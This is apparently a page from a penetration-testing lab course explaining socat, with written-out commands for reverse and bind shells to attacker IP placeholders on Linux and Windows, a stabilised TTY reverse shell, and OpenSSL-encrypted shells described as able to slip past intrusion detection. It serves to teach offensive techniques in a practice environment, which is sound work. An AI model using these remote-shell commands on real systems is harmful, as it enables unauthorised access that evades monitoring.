 # Socat
Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

## Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

```bash
socat TCP-L:<port> -
```

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back:

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

## Bind Shells

On a Linux target we would use the following command:

```bash
socat TCP-L:<PORT> EXEC:"bash -li"
```

On a Windows target we would use this command for our listener:

```bash
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener:

```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

## Fully Stable Linux TTY Reverse Shell

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the `Ctrl + Z, stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows:

```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with `EXEC:"bash -li"`. We're also passing the arguments: `pty`, `stderr`, `sigint`, `setsid` and `sane`:

- `pty`: allocates a pseudoterminal on the target -- part of the stabilisation process
- `stderr`: makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- `sigint`: passes any `Ctrl + C` commands through into the sub-process, allowing us to kill commands inside the shell
- `setsid`: creates the process in a new session
- `sane`: stabilises the terminal, attempting to "normalise" it.

That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the `stty` values as seen in the previous task, which will let us use text editors such as Vim or Nano.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time TCP was used as part of a command, this should be replaced with OPENSSL when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single .pem file:

```bash
cat shell.key shell.crt > shell.pem
```

Now, when we set up our reverse shell listener, we use:

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:

```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

The same technique would apply for a bind shell:

Target:

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:

```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.